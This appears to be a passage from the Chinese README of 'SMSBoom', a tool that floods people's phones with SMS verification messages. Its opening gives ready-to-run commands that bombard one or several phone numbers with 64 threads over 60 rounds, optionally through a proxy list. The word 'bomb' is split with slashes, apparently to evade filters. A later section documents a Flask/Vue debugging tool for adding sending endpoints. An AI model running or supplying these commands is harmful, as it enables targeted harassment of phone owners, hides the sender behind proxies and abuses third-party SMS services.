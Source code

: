 启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30
```

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30 -e
```

启动64个线程,轰//炸多个人的手机号(198xxxxxxxx,199xxxxxxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```shell
python smsboom.py run -t 64 -p 198xxxxxxxx -p 199xxxxxxxx -f 60 -i 30 -e
```

## Development

程序提供接口调试工具，但目前还不完善，欢迎前端大佬 PR。  
调试工具以 `Flask` 为后端，`vue` 为前端，实现前后端分离。  
目前只有测试接口，添加接口的功能。

### Flask 前端调试

> **前提是已经根据前文 Quick Start 的方式安装好 pipenv 环境**

```shell
pipenv shell # 激活虚拟环境
python run_flask_app.py start -p 9090 # 监听9090端口
```

**运行帮助:**
```shell
Usage: run_flask_app.py [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  init         初始化数据库
  json2sqlite  将json数据转为sqlite数据库
  sqlite2json  将sqlite数据转为json
  start        启动 flask app
```

```shell
Usage: run_flask_app.py start [OPTIONS]

  启动 flask app

Options:
  -h, --host TEXT     监听地址
  -p, --port INTEGER  监听端口
  --help              Show this message and exit.
```
